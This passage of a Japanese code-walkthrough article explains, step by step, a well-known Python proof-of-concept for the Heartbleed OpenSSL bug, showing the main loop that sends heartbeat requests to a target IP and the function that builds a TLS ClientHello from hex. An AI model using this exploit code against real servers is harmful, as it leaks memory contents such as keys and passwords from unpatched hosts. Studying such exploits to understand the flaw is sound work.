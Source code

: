 ```python
			# Look for server hello done message.
			if typ == 22 and ord(pay[0]) == 0x0E:
				break
                
		# 4. exploitの送信
		print 'Sending heartbeat request...'
		sys.stdout.flush()
		s.send(create_hb(version[i][1]))
		if hit_hb(s,create_hb(version[i][1])):
			#Stop if vulnerable
			break

if __name__ == '__main__':
	main()
```

#### 1．引数の受け取り

引数なしの実行はできないようです。
引数には、攻撃先のIPを指定する必要があります。

#### 2．各バージョンごとにコネクションを確立し、create_hello関数を実行

あらかじめ定義されているバージョンリストのそれぞれで`create_hello(version)`を実行しているようです。
`create_hello(version)`については[後述](#create_hello関数)します。

#### 3．なんやかんや応答チェック

`recvmsg(s)` の中のそれぞれの値が、`typ == 22 and ord(pay[0]) == 0x0E`であればServerHelloを受信したものとして、ペイロードの送信に進みます。

`recvmsg(s)` についても[後述](#recvmsg関数)します。

#### 4. exploitの送信

コネクションが確認できたら、`create_hb(version[i][1])`で攻撃パケットを送り込み、応答パケットの情報を表示します。

`create_hb(version[i][1])`についても[後述](#create_hb関数)します。

### create_hello関数

では、各関数の処理を見てみます。

最初はcreate_hello関数です。

```python
def h2bin(x):
	return x.replace(' ', '').replace('\n', '').decode('hex')

def create_hello(version):
	hello = h2bin('16 ' + version + ' 00 dc 01 00 00 d8 ' + version + ''' 53
43 5b 90 9d 9b 72 0b bc  0c bc 2b 92 a8 48 97 cf
bd 39 04 cc 16 0a 85 03  90 9f 77 04 33 d4 de 00
00 66 c0 14 c0 0a c0 22  c0 21 00 39 00 38 00 88
00 87 c0 0f c0 05 00 35  00 84 c0 12 c0 08 c0 1c
c0 1b 00 16 00 13 c0 0d  c0 03 00 0a c0 13 c0 09
c0 1f c0 1e 00 33 00 32  00 9a 00 99 00 45 00 44
c0 0e c0 04 00 2f 00 96  00 41 c0 11 c0 07 c0 0c
c0 02 00 05 00 04 00 15  00 12 00 09 00 14 00 11
00 08 00 06 00 03 00 ff  01 00 00 49 00 0b 00 04
03 00 01 02 00 0a 00 34  00 32 00 0e 00 0d 00 19
00 0b 00 0c 00 18 00 09  00 0a 00 16 00 17 00 08
00 06 00 07 00 14 00 15  00 04 00 05 00 12 00 13
00 01 00 02 00 03 00 0f  00 10 00 11 00 23 00 00
00 0f 00 01 01
''')
	return hello
```
